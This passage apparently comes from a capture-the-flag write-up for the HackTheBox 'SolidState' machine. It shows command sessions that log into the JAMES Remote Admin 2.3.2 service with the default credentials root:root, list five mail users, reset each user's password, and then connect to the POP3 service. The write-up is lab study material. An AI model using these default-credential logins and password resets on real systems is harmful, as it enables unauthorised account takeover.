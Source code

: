 It seems that this website belongs to a company called "Solid State Security". Unfortunately, there is actually nothing of importance here.

## Port 4555 `JAMES Remote Admin 2.3.2`

```bash
$ nc -v solidstate.htb 4555   
solidstate.htb [10.10.10.51] 4555 (?) open
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
```

We are instantly prompted for credentials According to online, the default credentials was `root:root`. With it, we are able to successfully login!

```bash
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

If we use the `listusers` features, we see that there are 5 users on this service.

```bash
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

As `root` on the service, we are able to change the passwords of users.

```bash
setpassword james password
Password for james reset
setpassword thomas password
Password for thomas reset
setpassword john password
Password for john reset
setpassword mindy password
Password for mindy reset
setpassword mailadmin password
Password for mailadmin reset
```

## Port 110 `JAMES pop3d 2.3.2`

```bash
$ telnet solidstate.htb 110 
Trying 10.10.10.51...
Connected to solidstate.htb.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
```
